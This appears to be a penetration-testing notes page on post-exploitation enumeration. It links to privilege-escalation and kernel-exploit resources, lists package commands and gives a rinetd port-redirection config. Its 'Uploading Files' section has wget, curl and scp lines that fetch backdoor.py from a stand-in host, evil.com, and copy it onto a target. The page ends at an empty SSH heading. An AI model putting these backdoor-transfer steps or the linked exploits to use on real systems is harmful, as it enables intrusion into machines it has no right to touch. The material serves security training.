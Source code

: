 This is the phase I like to refer to as second pass enumeration or enumeration from the inside. Now that we've gained a foothold into the network it is crucial to run all of our enumeration from the ground up as an inside actor.

##### Resources

[The Linux Programming Interface](https://moodle2.units.it/pluginfile.php/115306/mod_resource/content/1/The Linux Programming Interface-Michael Kerrisk.pdf)

[DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

[kernel-exploits - GitHub](https://github.com/xairy/kernel-exploits)

[Linux Kernel Exploits - GitHub](https://github.com/SecWiki/linux-kernel-exploits)

[Basic Linux Privilege Escalation - g0tm1lk](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[UNIX PrivEsc Check](https://github.com/pentestmonkey/unix-privesc-check)

[LinEnum](https://github.com/rebootuser/LinEnum)

[linuxprivchecker.py](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123)

[Linux PrivEsc for fun and profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)

[A PenTester's Guide to Pivoting](http://hackingandsecurity.blogspot.com/2017/10/a-red-teamers-guide-to-pivoting.html)

[Understanding systemd](https://n0where.net/understanding-systemd/)

##### Listing Packages

Kali> dpkg -l
Kali> rpm -qa



##### Uploading Files

Kali> wget http://evil.com/backdoor.py
Kali> curl http://evil.com/backdoor.py
Kali> scp ~/backdoor.py user@$TARGET:tmp/backdoor.py



##### Port Redirection

> ###### rinetd

rinetd

vi /etc/rinetd.conf
# bind        # port        # connect        # port
a.b.c.d     53             e.f.g.h         80



##### SSH
